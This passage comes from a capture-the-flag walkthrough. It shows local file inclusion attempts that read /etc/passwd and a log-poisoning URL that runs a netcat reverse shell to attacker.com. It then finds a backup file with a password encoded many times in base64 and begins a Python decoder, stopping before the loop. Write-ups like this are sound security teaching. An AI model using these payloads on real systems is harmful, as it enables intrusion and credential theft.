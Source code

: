 Some of my attempts:

  

```bash
http://example.com/index.php?page=/etc/passwd&cmd=id

http://example.com/index.php?page=/var/log/apache/access.log&cmd=nc%20-e%20/bin/bash%20attacker.com%204444

http://example.com/index.php?page=php://input&cmd=cat%20/etc/passwd
```

  

I was stuck at this point, so I went back through my notes again and I discovered I haven't checked on example scripts yet.

  

#### listfiles.php

Opening **listfiles.php**, it revealed that there is a file named **pwdbackup.txt**:
  

![](https://i.imgur.com/W7vV5Da.png)


  

#### pwdbackup.txt

  

Accessing **pwdbackup.txt** on browser, it showed me long encoded password hash:

  

![](https://i.imgur.com/4SzwQXQ.png)


  

## Shell as charix

### Cracking Hash

  

It says the password is encoded at least 13 times but it seemed to be encoded using base64 multiple times which could be easily cracked.

  

I created base64 decoder using python that it decodes until readable content is obtained:

  

```python
import base64

encoded_string = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo="

decoded_string = encoded_string

# Iterate until readable content is obtained
```